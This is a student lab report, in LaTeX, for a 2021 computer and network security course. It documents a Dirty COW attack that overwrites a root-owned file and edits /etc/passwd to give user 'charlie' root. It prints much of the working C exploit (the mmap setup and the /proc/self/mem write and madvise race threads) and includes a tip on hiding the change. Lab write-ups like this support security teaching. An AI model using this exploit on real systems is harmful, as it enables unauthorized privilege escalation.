\documentclass[12pt,reqno]{amsart}

\usepackage{amsthm,amsmath,amssymb}
\usepackage{mathtools}
\usepackage{proof}
\usepackage{centernot}
\usepackage{xcolor}
\usepackage{graphicx}
\usepackage[T1]{fontenc}
\usepackage{courier}
\usepackage{enumitem}
\usepackage{hyperref}
\usepackage{array}
\usepackage{multirow}
\usepackage{algorithmic}
\usepackage{textcomp}
\usepackage{algorithm}
\usepackage{cite}
\usepackage{listings}
\definecolor{mGreen}{rgb}{0,0.6,0}
\definecolor{mGray}{rgb}{0.5,0.5,0.5}
\definecolor{mPurple}{rgb}{0.58,0,0.82}

\lstdefinestyle{CStyle}{
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\ttfamily\tiny,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=C
}

\definecolor{mySucces}{RGB}{40, 167, 69}
\definecolor{myFail}{RGB}{220, 53, 69}

\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\st}[0]{\text{ s.t. }}
\newcommand{\where}[0]{\text{ where }}
\newcommand{\mand}[0]{\text{ and }}
\newcommand{\msgspc}[0]{\mathcal{M}}
\newcommand{\cphspc}[0]{\mathcal{C}}
\newcommand{\keyspc}[0]{\mathcal{K}}
\newcommand{\advrs}[0]{\mathcal{A}}
\newcommand{\distin}[0]{\mathcal{D}}
\newcommand{\oracle}[0]{\mathcal{O}}
\newcommand{\correctans}[0]{\colorbox{mySucces}{CORRECT}}
\newcommand{\falseans}[0]{\colorbox{myFail}{FALSE}}
\newcommand\MyBox[2]{
  \fbox{\lower0.75cm
    \vbox to 1.7cm{\vfil
      \hbox to 1.7cm{\hfil\parbox{1.4cm}{#1\\#2}\hfil}
      \vfil}%
  }%
}
\graphicspath{ {./} }
\newtheorem{theorem}{Theorem}[section]
\newtheorem{axiom}[theorem]{Axiom}
\newtheorem{case}[theorem]{Case}
\newtheorem{claim}[theorem]{Claim}
\newtheorem{conclusion}[theorem]{Conclusion}
\newtheorem{condition}[theorem]{Condition}
\newtheorem{conjecture}[theorem]{Conjecture}
\newtheorem{corollary}[theorem]{Corollary}
\newtheorem{criterion}[theorem]{Criterion}
\newtheorem{definition}[theorem]{Definition}
\newtheorem{example}[theorem]{Example}
\newtheorem{exercise}[theorem]{Exercise}
\newtheorem{lemma}[theorem]{Lemma}
\newtheorem{notation}[theorem]{Notation}
\newtheorem{problem}[theorem]{Problem}
\newtheorem{proposition}[theorem]{Proposition}
\newtheorem{remark}[theorem]{Remark}
\newtheorem{solution}[theorem]{Solution}
\newtheorem{summary}[theorem]{Summary}    

\begin{document}

\begin{center}
\large\textbf{Project 2 \\ COMP534 Spring 2021\\Computer \& Network Security \\}
\normalsize\textbf{ Erhan Tezcan 0070881 \\ 24.03.2021} \\
\end{center}

\begin{center}
\line(1,0){250}
\end{center}

\section{Report}
This report includes screenshots for the project, and a brief analysis regarding the code.

\subsection{Writing to \code{zzz} file}
In figure 1 we see the commands that demonstrate how it is possible to write to a file without right privileges. 

\begin{figure}[h]
\label{fig:zzz}

\includegraphics[width=\linewidth]{part2.png}
\caption{Dirty COW attack on file \code{/zzz}.}
\end{figure}

With \code{ls /zzz -l} we can see that only the root user can write to \code{/zzz} file, also underlined with green color in the figure. The file content is the string ``Erhan''. By running our attack, targeting the file and replacing ``Erhan''' with ``Tezcan'' we effectively write to the file. Note that after writing to the file via Dirty COW, the file is still only writable by the root, shown at the last two commands in the figure.

Notice that since ``Tezcan'' is 1 character longer than ``Erhan'', the newline character is overwritten and thats why the command prompt is at the same level with Tezcan when we do \code{cat /zzz}. It is therefore a better practice to replace a string with an equal length string, for better hiding purposes.

\subsection{From \code{charlie} to \code{root}}

In figure 2 we see the commands that demonstrate how it is possible to use Dirty COW attack to make an arbitrary user ``charlie'' the root. 

\begin{figure}[h]
\label{fig:charlie}

\includegraphics[width=\linewidth]{part3.png}
\caption{Dirty COW attack on file \code{/etc/passwd}.}
\end{figure}

With the previous task, we have seen that we can replace a string in a file with another string. Now we will replace the user ID of charlier with 0, which in effect will make him a root. Indeed, after launching the attack and then switching to user charlie, we can see that we have root access.

\subsection{Dirty COW}
The attack relies on racing the \code{madvise(MADV\_DONTNEED)} system call while having the page of the executable mmapped in memory\footnote{\url{https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails}}.

\begin{figure}[h]
\begin{lstlisting}[style=CStyle, firstnumber=22]
  // Open the target file in the read-only mode.
  int f=open("/etc/passwd", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "charlie:x:1001");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
\end{lstlisting}
\caption{Inside \code{main}. Omitted some declarations for brevity. It's task is to find the position of the target, which we can do with read access alone, and then launch the threads. It waits for the threads to finish, but the threads run forever so the user has to manually interrupt the program to exit.}
\end{figure}

\begin{figure}[h] 
\begin{lstlisting}[style=CStyle, firstnumber=46]
void *writeThread(void *arg) {
  char *content= "charlie:x:0000";
  off_t offset = (off_t) arg;
  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
\end{lstlisting}
\caption{\code{write} thread. Writes the content to the position of the target. If lucky, this will be conducted on the memory that is supposed to be used by madvise.}
\end{figure}

\begin{figure}[h] 
\begin{lstlisting}[style=CStyle, firstnumber=61]
void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
    madvise(map, file_size, MADV_DONTNEED);
  }
}
\end{lstlisting}
\caption{\code{madvise} thread. A system call to cause copy-on-write (COW).}
\end{figure}

When we call these two threads (figures 4 and 5) there is a chance that the write will actually write to the mapped memory that is used by madvise in a COW fashion. COW is a technique of sharing a resource: when the resourse is required but will not be modified, then it is wasteful to create a copy, but what should happen is that the resource itself is delivered. At this point, if the write thread can intercept the memory it can write to it. Since we may not always be lucky and achieve this in a single function call, the threads run forever and the attack is interrupted by the adversary. In my own case, I ran it for around 5-6 seconds and it was always successful.
\end{document}